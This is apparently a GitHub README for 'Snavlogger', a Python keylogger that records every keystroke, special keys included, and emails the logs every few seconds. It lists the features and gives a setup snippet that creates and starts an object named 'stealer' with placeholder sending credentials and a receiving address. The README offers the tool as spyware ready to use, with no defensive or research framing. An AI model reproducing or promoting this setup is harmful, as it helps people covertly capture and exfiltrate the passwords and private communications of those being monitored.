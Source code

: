 # Description
**Snavlogger** is a keylogger that record all keys that is pressed including special keys and report them by email, every _**x**_ seconds.

# Features
* Send reports by email
* Set a time interval for reporting logged keys
* Logs every key including special keys

# Things to modify
In **snavlogger.py**

```python
from keylogger import Keylogger

stealer = Keylogger(120, 'EMAIL_FOR_SENDING', 'PASSWORD', 'EMAIL_FOR_RECEIVING')
stealer.start()
```

# Who made this?
* Snavellet - Main Developer

# License
* MIT